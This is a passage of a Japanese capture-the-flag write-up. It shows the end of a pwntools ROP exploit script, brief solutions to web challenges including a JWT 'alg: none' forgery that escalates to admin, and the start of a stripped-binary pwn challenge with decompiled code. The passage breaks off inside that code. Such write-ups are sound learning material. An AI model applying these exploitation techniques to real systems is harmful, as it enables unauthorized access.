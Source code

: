 ```py
payload+=p64(base_addr+elf.symbols['vuln'])

p.sendlineafter(b"advance: \n",payload)
p.interactive()
```

## [web] Back to Basic Web 100pts

コードを探すとそれっぽい Base64 が 2 つあるので、組み合わせるだけです。

## [web] Vulns? None 100pts

JWT の問題です。Cookie の Token に JWT が入っているんですが、アルゴリズムを `none` に書き換えると改竄チェックがなくなる場合があるって話です。割と有名

あとは `id` を `admin` に変えるとフラグゲット

## [pwn] Leaky Shell 477pts

stripped バイナリです。いやらしい！

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

??? note "Decompiled Code"

    ```cpp
    undefined8 main(void)

    {
      long lVar1;
      int iVar2;
      long in_FS_OFFSET;
      int local_18;
    
      lVar1 = *(long *)(in_FS_OFFSET + 0x28);
      alarm(0x1e);
      setvbuf(stdin,(char *)0x0,2,0);
      setvbuf(stdout,(char *)0x0,2,0);
      fwrite(" == Unseen shell v0.1 ==\n\n",1,0x1a,stdout);
      do {
        check("aveiro","4v31r0P4ss");
        do {
          fwrite("Try again? y/n: ",1,0x10,stderr);
          iVar2 = getchar();
          if (iVar2 == -1) {
            if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
              return 0;
            }
                        /* WARNING: Subroutine does not return */
            __stack_chk_fail();
          }
          local_18 = 0x30;
          while ((local_18 != 10 && (local_18 != -1))) {
            local_18 = getchar();
          }
          if (iVar2 == 0x6e) {
            _Exit(0);
          }
        } while (iVar2 != 0x79);
      } while( true );